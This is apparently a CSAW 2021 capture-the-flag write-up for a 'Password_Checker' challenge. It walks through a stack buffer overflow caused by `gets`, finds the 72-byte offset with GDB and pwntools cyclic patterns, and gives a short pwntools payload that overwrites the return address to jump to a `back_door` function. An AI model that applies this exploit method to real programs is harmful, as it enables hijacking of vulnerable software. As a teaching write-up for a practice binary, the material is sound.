



# Password_Checker
`Main` is a fairly boring function that only calls `init` and `password_checker` then returns.



`Password_checker` executes a string comparison to a hard coded value then returns. However it uses `gets` and reads an arbitray amount of data.

 

GDB-GEF disass of `password_checker`:



Ghidra shows the buffer size of local_48 as 60. While 61 bytes will overflow the buffer there is still some distance to `$rip`. Through testing it is found that the total offset to `$rip` is 72.

We can find the offset inside GDB with pwntools:

Set a breakpoint immediently following `gets`: `b *0x00000000004011f1`

Then generate your cyclic pattern: `! python3 -c "import pwn; print(pwn.cyclic(100, n=8))" > cyclic`

Execute the program with cyclic as the input `r < cyclic`

Examine the value of `$rbp`: `x/s $rbp`

Query the offset in 8 byte chunks: `! python3 -c "import pwn; print(pwn.cyclic_find('aaiaaaaa', n=8))"`

The beginning of `$rbp` is 62 + 8 bytes for the length of `$rbp` to equel 70

Through manual `demsg` inspection I found there was 2 extra byts of padding to equal a total of 72 bytes as the offset

From here we control `$rip` and write out the next 8 bytes as the location of `back_door`: 0x0000000000401172

Our final [payload](https://github.com/CR15PR/CSAW2021/blob/main/warm-up/Password_Checker/solver.py) looks like this:
  ```back_door = p64(password_elf.symbols.backdoor)
  OFFSET = 72
  junk = b"A" * OFFSET
  
  payload = [
    junk,
    back_door,
  ]

  payload = b''.join(payload)
  p.sendline(payload)```
